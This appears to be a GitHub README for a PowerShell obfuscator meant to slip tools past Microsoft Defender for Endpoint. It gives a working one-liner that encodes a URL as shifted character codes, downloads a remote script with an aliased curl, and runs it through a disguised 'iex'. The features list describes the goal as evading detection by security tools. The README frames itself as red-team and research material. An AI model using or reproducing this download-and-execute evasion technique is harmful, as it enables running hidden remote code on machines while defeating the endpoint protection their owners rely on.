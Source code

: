 # ps1-obfuscator

![image](https://github.com/user-attachments/assets/aba0d9fc-9818-4709-bce1-71a311a870dc)

A ps1 obfuscator designed to help run fkmde or other tools for use in environments with Microsoft Defender for Endpoint (MDE).

```
powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)" 
```

## Features
- **URL Obfuscation**: Transforms URL into a series of ASCII values, making them less recognizable to security tools.
- **Random Variable Generation**: Creates random variable names to further obscure the script and reduce the chance of detection.
- **CMD Compatibility**: The generated obfuscated script can be executed in the Windows Command Prompt, allowing for seamless integration into various workflows.
  
## Disclaimer
This tool is intended for educational and security research purposes only. The author is not responsible for misuse or for any damage that may occur from using this tool. It is the end user's responsibility to comply with all applicable laws and regulations. The use of this tool against targets without prior mutual consent is illegal.

## Credits
- This obfuscation technique was observed in a live Security Operations Center (SOC) incident and adapted for red-teaming purposes.
